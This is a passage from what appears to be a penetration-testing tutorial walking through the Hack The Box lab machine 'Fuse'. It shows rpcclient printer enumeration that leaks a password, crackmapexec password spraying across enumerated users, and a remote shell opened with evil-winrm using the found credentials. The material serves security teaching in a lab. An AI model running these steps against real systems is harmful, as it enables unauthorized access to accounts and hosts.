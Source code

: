 Back on rpcclient, we can look at printers that might be shared by using the enumprinters command. This gives output which contains a password:

```bash
rpcclient $> enumprinters
 flags:[0x800000]
 name:[\\10.129.70.212\HP-MFT01]
 description:[\\10.129.70.212\HP-MFT01,HP Universal Printing PCL 6,Central (Near IT, scan2docs password: $fab@s3Rv1ce$1)]
 comment:[]
rpcclient $>
```

A password has been saved in the description $fab@s3Rv1ce$1 which we can test with the users we enumerated earlier:

```bash
┌─[oztechmuse@parrot]─[~/boxes/Fuse]
└──╼ $crackmapexec smb fuse.htb -u rpc_users.txt -p '$fab@s3Rv1ce$1'
SMB 10.129.70.212 445 FUSE [*] Windows Server 2016 Standard 14393 x64 (name:FUSE) (domain:fabricorp.local) (signing:True) (SMBv1:True)
SMB 10.129.70.212 445 FUSE [-] fabricorp.local\Administrator:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE
SMB 10.129.70.212 445 FUSE [+] fabricorp.local\svc-print:$fab@s3Rv1ce$1
```

We get a hit with the username svc-print which we can then use to get access with evil-wrinrm:

```bash
┌─[rin@parrot]─[~/boxes/Fuse]
└──╼ $evil-winrm -u svc-print -p '$fab@s3Rv1ce$1' -i fuse.htb
Evil-WinRM shell v2.3
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-print\Documents>
The user flag is in c:\Users\svc-print\Desktop\users.txt.
```

We will leave this here and come back to Fuse in a subsequent chapter where we cover further enumeration for discovery and privilege escalation. Next however we are going to explore custom exploitation as a means of gaining initial access.

